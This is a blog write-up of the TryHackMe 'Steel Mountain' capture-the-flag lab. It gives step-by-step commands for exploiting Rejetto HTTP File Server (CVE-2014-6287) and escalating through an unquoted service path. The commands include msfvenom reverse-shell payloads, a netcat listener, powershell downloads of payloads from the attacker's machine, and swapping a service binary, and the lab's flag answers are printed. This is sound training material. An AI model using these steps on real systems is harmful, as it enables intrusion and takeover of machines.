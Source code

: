 ```yaml
---
title: 'Steel Mountain 🗻'
excerpt: 'Featured writeup'
date: '2021-03-27T05:35:07.322Z'
author:
  name: Collin Orner
  picture: '/assets/blog/authors/collin.jpeg'
---
```



# Task 1 - Introduction

*Deploy the Machine.*

## Who is the employee of the month?

If you go to the IP of the website, you will see a picture of a man from Mr. Robot. If you watched the show, you may recognize him. I forgot his name, so I reverse searched the image to find his name.

**Answer:** **`Bill Harper`**

# Task 2 - Initial Access

## Scan the machine with nmap. What is the other port running a web server on?

I ran `nmap -sCV -A -Pn -vvv <ip>` to find the port running a http web server.

**Answer:** ``` 8080 ```

## Take a look at the other web server. What file is running?

After finding the port number from the nmap scan, I went to the url with the port number and found the server information at the bottom. I did some OSINT on the server version and found the exact name.

**Answer:** ``` Rejetto Http File Server ```

## What is the CVE number to exploit this file server?

Along with finding the file server running, on the same website it showed the CVE number. [https://www.exploit-db.com/exploits/39161](https://www.exploit-db.com/exploits/39161)

**Answer:** ``` 2014-6287 ```

## Use Metasploit to get an initial shell. What is the user flag?

run Metasploit with `msfconsole`

search for the exploit by typing in the CVE number with the command `search 2014-6287`

use the exploit with `use 0`

all you have to set is your RHOSTS and RPORT. Under the `show options` command it shows that there are a lot of required options but you only need those 2. 

I was getting an error saying, "This exploit may require manual cleanup of '%TEMP%\txVTS.vbs' on the target." To fix this, simply restart your box and get a new IP.

After running `exploit` I got a meterpreter shell within the metasploit console.

Running `pwd` I found by default I was put in the directory under the Users\bill, and figured I might check the Desktop.

On the Desktop there was a user.txt file, so I ran `cat user.txt` to get the flag

**Answer:**  <span style="background-color: #111827; color: #FDE667; font-weight:500; font-size: 1rem; border-radius: 0.25rem; padding-top: 0.25rem; padding-bottom: 0.25rem; padding-left: 0.5rem; padding-right: 0.5rem">b04763b6fcf51fcd7c13abc7db4fd365</span>

# Task 3 - Privilege Escalation (With Metasploit)

## Take close attention to the CanRestart option that is set to true. What is the name of the name of the service which shows up as an unquoted service path vulnerability?

Download the script from the box with `git clone https://github.com/PowerShellMafia/PowerSploit.git`

I put it into my TryHackMe folder for SteelMountain to keep it more organized. 

Go back to your meterpreter and upload it with `upload /home/kali/../PowerUp.ps1`

On the box it tells you to run `load powershell` in the meterpreter then `powershell_shell`

I checked to run the script with `./PowerUp.ps1` and it might've executed, but I checked for the CanRestart option with the command `invoke-allchecks` 

**Answer:**  <span style="background-color: #111827; color: #FDE667; font-weight:500; font-size: 1rem; border-radius: 0.25rem; padding-top: 0.25rem; padding-bottom: 0.25rem; padding-left: 0.5rem; padding-right: 0.5rem">AdvancedSystemCareService9</span>

## What is the root flag?

First, I made the reverse shell with the command given from the box `msfvenom -p windows/shell/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -f exe -o Advanced.exe`

Then I went to the meterpreter and backgrounded the shell to load the exploit named `exploit/multi/handler` 

With this as my exploit, I set the payload to `windows/shell/reverse_tcp`

Make sure you match up the LHOST and LPORT to link with the reverse shell created with msfvenom. 

Run the exploit, and go into the old meterpreter with `sessions 0`

In here, cd into the Advanced SystemCare in the Program Files x86.

Open a shell with `shell` and stop the program with `sc stop`<span style="background-color: #111827; color: #FDE667; font-weight:500; font-size: 1rem; border-radius: 0.25rem; padding-top: 0.25rem; padding-bottom: 0.25rem; padding-left: 0.5rem; padding-right: 0.5rem">AdvancedSystemCareService9</span>

Exit out of this shell and upload the .exe you made with msfvenom into the Advanced SystemCare folder. 

Go back into the shell, and start the service with `sc start`<span style="background-color: #111827; color: #FDE667; font-weight:500; font-size: 1rem; border-radius: 0.25rem; padding-top: 0.25rem; padding-bottom: 0.25rem; padding-left: 0.5rem; padding-right: 0.5rem">AdvancedSystemCareService9</span>

This should launch the program with your executable making it so you can get root access. 

Look around in the root folder for the root.txt file.

**Answer:** <span style="background-color: #111827; color: #FDE667; font-weight:500; font-size: .92rem; border-radius: 0.25rem; padding-top: 0.25rem; padding-bottom: 0.25rem; padding-left: 0.5rem; padding-right: 0.5rem">9af5f314f57607c00fd09803a587db80</span>

# Task 4 - Access and Escalation Without Metasploit

First you want to get your exploit.

I searched for the exploit using searchsploit; `searchsploit rejetto http file server`

As you can see, the EDB-ID matches up with the searchsploit Exploit Title.

If you're on kali linux, it's already in your system so you can copy it over with `cp /usr/share/exploitdb/exploits/windows/remote/39161.py <filename.py>`

Nano into the .py file and set your local ip address to your openvpn IP.

Set the local port number to a port you will remember to run netcat with later on. 

On another tab in your terminal, start a SimpleHTTPServer with `sudo python -m SimpleHTTPServer <port>` (just use like port 80 or 8080)

On another tab in your terminal, start up that netcat listener on the port you put in the .py exploit file. `nc -lvnp <port>`

Run the exploit .py file with the command `python <filename>.py <target IP> 8080` 

If you get a 404 response in your Http Server, copy the ncat.exe to nc.exe, the script reads the listener as a different file name then what the box provides.

Once you get a 200 response message in the Http Server, run the exploit again and you should get a shell in your NC listener. 

## What powershell -c command could we run to manually find out the service name?

**Answer:** ``` powershell -c Get-Service ```

Now let's escalate to Administrator with our new found knowledge.

Download the WinPeas.exe file from the GitHub repo for privilege escalation. [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/binaries/Obfuscated Releases/winPEASx64.exe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases/winPEASx64.exe)

With this, upload it to your target's machine with the new command you learned (powershell -c) `powershell -c wget "http://<local IP><port>/winPEASx64.exe" -outfile "winPEAS.exe"`

Run the file by simply typing the file name `winPEAS.exe`

Now, go back to your local host and make the ASCService.exe like we did with metasploit last task. `msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -f exe -o ASCService.exe` this will make the ASCService.exe on your local machine, and now you have to upload it to the target host.

Upload it with `powershell -c wget "http://<ip>:<port>/ASCService.exe -outfile "ASCService.exe"`

Now, just like in the Metasploit part, stop the service with `sc stop AdvancedSystemCareService9`

And then copy the .exe to the Advanced SystemCare with `copy ASCService.exe "Advanced SystemCare"`

Just start the service up again and your exploit will be encoded into the start. `sc start AdvancedSystemCareService`

Now you are root, the root.txt flag is right in the open it's not hard to find at all if you still need the root.txt flag. 

Congratulaions! You did the room. Thanks for reading my writeup! 🐦 **@collinhacks**

